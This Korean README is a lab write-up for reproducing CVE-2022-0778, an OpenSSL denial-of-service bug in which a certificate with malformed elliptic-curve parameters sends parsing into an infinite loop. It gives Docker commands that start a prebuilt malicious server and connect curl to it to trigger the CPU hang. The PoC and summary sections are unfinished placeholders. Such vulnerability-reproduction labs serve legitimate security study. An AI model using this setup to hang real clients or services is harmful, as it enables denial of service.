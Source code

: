 # OpenSSL 무한 루프를 통한 서비스 거부(DoS) 취약점 (CVE-2022-0778)

> WHS-3기 - [주수민 (@summin02)](https://github.com/summin02)

<br/>

### 개요

OpenSSL은 컴퓨터 네트워크 상에서 통신을 보호하거나, 통신 상대방을 식별해야 하는 애플리케이션을 위한 소프트웨어 라이브러리이다.

공격자가 잘못된 타원 곡선(elliptic curve) 매개변수를 가진 인증서를 조작하여, 무한 루프를 유발할 수 있다.
인증서 파싱 과정은 서명 검증 이전에 이루어지기 때문에, 외부에서 제공된 인증서를 처리하는 모든 프로세스가 이 취약점에 의해 서비스 거부(DoS) 공격을 받을 수 있다.

<br/>

### 요약
- 잘못된 타원 곡선 매개변수를 가진 인증서를 파싱하는 과정에서 무한 루프 발생
- 해당 프로세스는 정상적인 작업을 수행하지 못하고 CPU를 소모하며 서비스 거부(DoS) 상태에 빠짐
- 이 문제는 외부 입력을 처리하는 모든 OpenSSL 사용자에게 영향을 줄 수 있음

<br/>

### 환경 구성
- 터미널에서 다음 명령어를 통해 서버를 시작합니다
```
docker compose up -d
```

<br/>

### 취약점 재현
먼저, 악성 서버를 실행해야 한다.
Golang 컴파일러가 설치되어 있지 않은 경우, Docker 이미지를 사용할 수 있다
- 터미널에서 다음 명령어를 통해 악성 서버를 실행한다.
```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```
<img width="569" alt="스크린샷 2025-04-26 13 10 36" src="https://github.com/summin02/kr-vulhub/blob/650c81857790303bd05125d2cc49e308a82efb1e/DoS/CVE-2022-0778/bad_server_run.png" />
![](bad_server_run.png)
https://github.com/summin02/kr-vulhub/blob/650c81857790303bd05125d2cc49e308a82efb1e/DoS/CVE-2022-0778/bad_server_run.png
- 이후 컨테이너 내부에서 CPU 사용량을 모니터링하기 위해 새로운 터미널에서 다음 명령어를 실행한다.
```
docker compose exec curl top
```
- 이후 다음 명령어를 통해 만들어진 도커 환경에 진입한다.
```
docker compose exec curl bash
```
- 이어서 다음 명령어를 통해 앞서 띄운 악성 서버로 접속한다.
```
curl -k https://host.docker.internal:12345
```
- 이 시점에서, cURL은 무한 루프에 빠지게 되고 CPU 리소스를 과다 소모하게 된다.

<br/>

### poc.py

내용 작성

<br/>

### 결과

![](result.png)

<br/>

### 정리

내용 작성
